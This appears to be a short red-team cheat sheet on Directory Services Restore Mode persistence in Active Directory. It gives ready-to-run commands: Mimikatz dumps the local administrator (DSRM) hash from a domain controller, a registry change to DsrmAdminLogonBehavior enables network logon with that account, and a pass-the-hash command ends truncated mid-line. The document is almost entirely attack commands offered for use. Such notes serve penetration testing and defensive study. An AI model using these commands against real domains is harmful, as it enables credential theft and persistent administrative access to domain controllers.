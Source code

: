 ```yaml
---
description: Directory Services Restore Mode
---
```


# DSRM

**Dump DSRM password - dumps local users**

look for the local administrator password

```
Invoke-Mimikatz -Command ‘”token::elevate” “lsadump::sam”’ -Computername <target>
```



**Change login behavior for the local admin on the DC**

```
New-ItemProperty “HKLM:\System\CurrentControlSet\Control\Lsa\” -Name “DsrmAdminLogonBehavior” -Value 2 -PropertyType DWORD
```



**If property already exists**

```
Set-ItemProperty “HKLM:\System\CurrentControlSet\Control\Lsa\” -Name “DsrmAdminLogonBehavior” -Value 2
```



**Pass the hash for local admin**

```
Invoke-Mimikatz -Command '"sekurlsa::pth /domain:<computer> /user:Administrator /ntlm:<hash> /run:powers
```
